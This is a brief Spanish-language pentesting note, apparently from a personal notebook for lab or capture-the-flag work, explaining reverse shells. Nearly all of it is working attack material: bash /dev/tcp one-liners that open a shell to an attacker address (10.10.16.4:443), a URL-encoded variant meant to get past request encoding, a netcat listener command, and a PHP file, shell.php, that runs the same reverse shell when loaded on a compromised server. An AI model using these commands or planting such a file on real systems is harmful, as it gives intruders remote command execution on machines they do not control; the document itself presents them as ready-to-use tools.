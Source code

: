 Una **reverse shell** sirve para que un atacante obtenga acceso remoto a una máquina víctima.  
La víctima inicia la conexión hacia el atacante, lo que **evade firewalls o NAT**, y le da al atacante una shell para ejecutar comandos remotamente.

--------

[Articulo con one liners que dan sirven para tirar la reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[Otro articulo de revershell en este saque de groovy](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
El one liner que mas vamos a usar
```
bash -c 'bash -i >& /dev/tcp/IpNuestra/Puerto 0>&1'
Ejemplo: bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'
```

Aveces tenemos que probar poner los & directamente con url enconde por que se pueden mal interpretar con el codigo
```
bash -c 'bash -i >%26 /dev/tcp/IpNuestra/Puerto 0>%261'
Ejemplo: bash -c 'bash -i >%26 /dev/tcp/10.10.16.4/443 0>%261'
```

Mientras tenemos que estar en escucha con [[nc -nlvp 443]]













# Desde un archivo .php
Creamos el archivo shell.php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'");
?>
```